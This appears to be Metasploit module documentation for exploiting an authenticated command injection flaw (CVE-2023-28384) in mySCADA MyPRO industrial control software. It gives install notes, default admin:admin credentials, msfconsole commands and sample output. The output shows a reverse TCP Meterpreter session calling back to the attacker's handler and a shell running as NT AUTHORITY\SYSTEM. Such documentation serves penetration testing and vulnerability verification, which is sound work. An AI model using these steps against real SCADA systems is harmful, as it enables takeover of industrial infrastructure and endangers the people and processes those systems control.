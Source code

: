 ## Vulnerable Application

**Vulnerability Description**

This module exploits a command injection vulnerability in mySCADA MyPRO <= v8.28.0 (CVE-2023-28384).

An authenticated remote attacker can exploit this vulnerability to inject arbitrary OS commands, which will get executed in the context of
`NT AUTHORITY\SYSTEM`.
This module uses the default admin:admin credentials, but any account configured on the system can be used to exploit this issue.

Versions <= 8.28.0 are affected. CISA published [ICSA-23-096-06](https://www.cisa.gov/news-events/ics-advisories/icsa-23-096-06) to cover
the security issues. The official changelog for the updated version, v8.29.0, is available
[here](https://web.archive.org/web/20230320130928/https://www.myscada.org/changelog/?section=version-8-29-0), although it only mentions a
"General security improvement" without further details.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor](http://nsa.myscada.org/myPRO/WIN/myPRO_x64_8.28.0.exe).
For the product to work correctly, the project and log directories need to be configured first, which can be done through the web inteface
(navigate to System > Storage).

**Successfully tested on**

- mySCADA MyPRO 8.28.0 on Windows 10 22H2
- mySCADA MyPRO 8.27.0 on Windows 10 22H2
- mySCADA MyPRO 8.26.0 on Windows 10 22H2

## Verification Steps

1. Install the application
2. Configure the project and log paths (System > Storage in the web interface, running by default on TCP ports 80 & 443)
3. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/windows/scada/mypro_cmdexe
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/scada/mypro_cmdexe) > set RHOSTS <IP>
msf6 exploit(windows/scada/mypro_cmdexe) > exploit
```

You should get a meterpreter session in the context of `NT AUTHORITY\SYSTEM`.

## Options
### USERNAME

The username of a MyPRO user (default: admin)

### PASSWORD

The associated password of the MyPRO user (default: admin)

## Scenarios

Running the exploit against MyPRO v8.28.0 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the
following:

```
msf6 exploit(windows/scada/mypro_cmdexe) > exploit

[*] Started reverse TCP handler on 192.168.1.241:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Checking credentials...
[+] Credentials are working.
[*] Sending command injection...
[*] Using randomly generated email address: VfzbSXcISaX@fNavXU.com
[*] Sending stage (201798 bytes) to 192.168.1.239
[*] Meterpreter session 12 opened (192.168.1.241:4444 -> 192.168.1.239:57382) at 2024-07-23 23:38:12 -0400
[*] Exploit finished, check thy shell.

meterpreter > shell
Process 2632 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4651]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```
